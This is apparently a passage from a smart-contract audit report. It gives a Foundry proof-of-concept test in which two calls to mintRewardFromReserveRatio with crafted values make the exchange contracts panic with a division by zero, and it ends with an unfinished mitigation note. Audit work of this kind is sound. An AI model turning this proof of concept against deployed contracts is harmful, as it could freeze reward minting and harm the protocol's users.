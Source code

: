 ```solidity
        reserves.push(address(mockReserve));
        reserves.push(address(mockReserve1));
        broker.initialize(exchangeProviders, reserves);
          for (uint256 i = 0; i < users.length; i++) {
            reserveToken.transfer(users[i], 1_000_000_000e18);
            vm.startPrank(users[i]);
            reserveToken.approve(address(broker), type(uint256).max);
            token.approve(address(broker), type(uint256).max);
            token2.approve(address(broker), type(uint256).max);
            reserveToken.approve(address(expansionController), type(uint256).max);
            token.approve(address(expansionController), type(uint256).max);
            token2.approve(address(expansionController), type(uint256).max);
            vm.stopPrank();
        }
        exchangeId= keccak256(abi.encodePacked(reserveToken.symbol(), token.symbol()));
        exchangeId2= keccak256(abi.encodePacked(reserveToken.symbol(), token2.symbol()));
        vm.label(address(token), "Good$");
        vm.label(address(token2), "Good2$");
    }
 function initializeBancorExchangeProvider() internal returns (BancorExchangeProvider) {
        BancorExchangeProvider bancorExchangeProviderIntern = new BancorExchangeProvider(false);

        bancorExchangeProviderIntern.initialize(brokerAddress, reserveAddress);
        return bancorExchangeProviderIntern;
    }
 function test_test_mintRewardRatioPOC() public {
            vm.prank(avatarAddress);
       goodDollarExchangeProvider.createExchange(IBancorExchangeProvider.PoolExchange({ reserveAsset: address(reserveToken), tokenAddress: address(token), tokenSupply: 1e18 , reserveBalance: 1e18 , reserveRatio: 0.1e8, exitContribution: 0 }));
       vm.prank(avatarAddress);
       expansionController.mintRewardFromReserveRatio(exchangeId, USER1, 1.001e25 );
       vm.prank(avatarAddress);
       expansionController.mintRewardFromReserveRatio(exchangeId, USER1, 1);
    }
}
contract DistributionHelper {
     function onDistribution(uint256 _amount) external{}
}
```
You should have an output like that : 

```solidity
Ran 1 test for test/CodedPOC.sol:CodedPOC
[FAIL: panic: division or modulo by zero (0x12)] test_test_mintRewardRatioPOC() (gas: 372309)

```


### Mitigation

In my opinion you could add some precision to the rateRatio or add a sefety check in the updateRatioForReward Function like this : 

